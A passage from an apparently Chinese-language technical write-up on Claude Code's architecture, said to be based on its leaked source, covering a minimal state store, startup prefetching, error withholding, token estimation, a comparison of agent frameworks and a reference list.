很多项目在 AI Agent 的状态管理上引入了 Redux、Zustand 等全套框架。Claude Code 的做法相反——用 35 行代码实现了一个够用的状态管理器：

```typescript
// 来自 src/state/store.ts（核心逻辑约 35 行）
createStore<T>(initialState, onChange?) => {
  getState()           // 返回当前快照
  setState(updater)    // updater: (prev) => next
                       // Object.is() 相等检查（引用相同则跳过通知）
                       // 触发 onChange + 通知所有 Listener
  subscribe(listener)  // 返回 unsubscribe 函数
}
```

无中间件，无选择器，无 devtools。配合 React 的 `useSyncExternalStore` 实现最小化重渲染——每个组件只在它订阅的状态片段变化时重渲染。

> [!TIP]
> **适用场景判断**：这个模式适合状态结构简单、不需要时间旅行调试、不需要跨进程同步的场景。Claude Code 是 CLI 工具，这些约束都满足。不要为工具选型而选型。

### 10.2 启动时间优化：3 行并行预取

`src/main.tsx` 最前面的 3 行是整个文件里最有价值的注释：

```typescript
// 这些副作用必须在所有其他 import 之前运行：
profileCheckpoint('main_tsx_entry')  // 标记入口（在 ~135ms 的 import 瀑布之前）
startMdmRawRead()                    // 并行：MDM 子进程读取（plutil/reg query）
startKeychainPrefetch()              // 并行：macOS 钥匙串双读取
                                     // 无此优化：~65ms 同步阻塞（每次 macOS 冷启动）
```

把耗时的 I/O 操作（读取系统配置、钥匙串）从"阻塞启动"变成"并行预热"，在用户眼中减少了约 65ms 的感知延迟。

### 10.3 错误扣留模式（Error Withholding）

流式传输中，可恢复的错误不立即暴露给调用者：

```
可恢复错误（prompt_too_long / media_size / max_output_tokens）：
  → 推入 assistantMessages 供内部恢复逻辑检查
  → 尝试所有恢复策略（自动压缩、降级等）
  → 所有恢复失败后才 yield 给用户

效果：防止 SDK 消费者在"中间错误"出现时提前终止会话，
     提高长对话的成功率和用户体验。
```

### 10.4 Token 估算：无 API 调用的感知上下文

准确估算 token 数量需要调用 tokenizer API，但这会增加延迟和成本。Claude Code 用一套文件类型感知的粗略估算代替：

```
文件类型感知估算：
  JSON/JSONL/JSONC：2 bytes/token（密集单字符 token）
  其他文本文件：4 bytes/token

区块级估算（更精细）：
  text/thinking：length / 4
  image/document：固定 2000 tokens
  tool_use：(name + JSON.stringify(input)).length / 4

上下文窗口估算（tokenCountWithEstimation）：
  1. 从后向前找到最后一条有 API usage 数据的消息
  2. 处理并行工具调用的兄弟记录（共享 message.id）
  3. 返回 usage.input_tokens + 粗略估算(后续消息)
  4. 无 usage 数据时全量粗略估算
```


## 11. 横向对比：这些模式在主流框架中的实现状态

| 设计模式 | Claude Code | LangGraph | OpenAI Agents SDK | CrewAI |
|---------|------------|----------|-------------------|--------|
| 流式工具执行（推理/执行重叠） | ✅ 原生支持 | ⚠️ 需手动实现 | ❌ 不支持 | ❌ 不支持 |
| 多层权限级联 | ✅ 8 步+23 验证器 | ❌ 需自定义 | ⚠️ Guardrails 有限 | ❌ 不支持 |
| Fork Subagent + Cache 共享 | ✅ 原生 | ❌ 不支持 | ❌ 不支持 | ❌ 不支持 |
| 双缓冲 Diff 渲染 | ✅ 自研 | N/A（无 TUI） | N/A | N/A |
| LLM 评分记忆召回 | ✅ 原生 | ⚠️ 需配置 | ❌ 基础实现 | ⚠️ 向量为主 |
| Prompt Cache 稳定性设计 | ✅ 14 个防护点 | ⚠️ 部分 | ❌ 用户自理 | ❌ 用户自理 |

> [!IMPORTANT]
> **何时借鉴这些模式？**
> - ✅ 构建面向生产的 Coding Agent 或文件操作 Agent
> - ✅ Agent 系统需要处理不受信任的用户输入（权限系统）
> - ✅ 多 Agent 并行任务，希望降低 Token 成本（Fork + Cache 共享）
> - ❌ 快速原型或内部工具，过度设计得不偿失
> - ❌ 无状态的单轮问答 Agent，不需要复杂的记忆和渲染系统


## 12. 总结

| 核心模式 | 一句话精髓 |
|---------|----------|
| 8 步权限级联 | 安全检查不是一道关，而是层层递进的防御纵深 |
| 不对称环境变量剥离 | 拒绝规则要"激进"，允许规则要"保守" |
| 200ms 竞赛模式 | 用竞争而非串行来平衡速度与安全 |
| 流式工具执行 | 推理和工具执行不必串行，安全并发的关键是声明"并发安全" |
| 指数退避 + 加性抖动 | 加性抖动比乘性抖动更可预测，保护系统的同时维持上界 |
| 双缓冲 + Diff 写入 | 只写变化的部分，游戏引擎的核心思路同样适用于终端 |
| TypeScript 原生移植 | 有时候消除依赖比性能优化更重要 |
| Fork Subagent + Cache 共享 | 让所有子进程共享相同的 token 前缀，并行几乎免费 |
| LLM 评分记忆召回 | 用 LLM 的语义理解代替启发式规则，上下文感知更准确 |
| Prompt Cache 稳定性 | 静动分离是缓存命中率的最大杠杆 |

> [!TIP]
> **学习路径建议**：
> 1. 先理解**流式工具执行**和**并发控制算法**——这是所有 Agentic 系统的性能基础
> 2. 再学习**权限级联**和**FileEditTool 12 步验证链**——理解生产系统需要考虑多少边界情况
> 3. 最后研究**Swarm 架构**和**Prompt Cache 稳定性**——这是从"能用"到"省钱"的关键一跃


## 13. 参考资料

### 核心论文与文档

| 资料 | 来源 | 主要贡献 |
|-----|------|---------|
| [Optimizing Agentic Language Model Inference via Speculative Tool Calls](https://arxiv.org/abs/2512.15834) | arXiv:2512.15834 | 推测性工具调用与推理执行重叠的学术验证 |
| [Efficient LLM Serving for Agentic Workflows](https://arxiv.org/abs/2603.16104) | arXiv:2603.16104 | Agent 工作流中的跨调用优化与 prompt cache 分析 |
| [Claude Code Architecture Deep Dive](https://wavespeed.ai/blog/posts/claude-code-architecture-leaked-source-deep-dive/) | WaveSpeedAI Blog | 泄露源码的架构综合分析 |
| [Diving into Claude Code's Source Code](https://read.engineerscodex.com/p/diving-into-claude-codes-source-code) | Engineers Codex | 记忆系统与权限系统的深度解读 |

### 推荐扩展阅读

- [Anthropic 官方多 Agent 研究系统工程博客](https://www.anthropic.com/engineering/multi-agent-research-system) — Anthropic 官方的多 Agent 实践总结
- [React Ink 终端渲染框架](https://github.com/vadimdemedes/ink) — Claude Code UI 层依赖的底层框架
- [Claude Code 源码泄露事件报道](https://venturebeat.com/technology/claude-codes-source-code-appears-to-have-leaked-heres-what-we-know) — VentureBeat 的事件完整记录
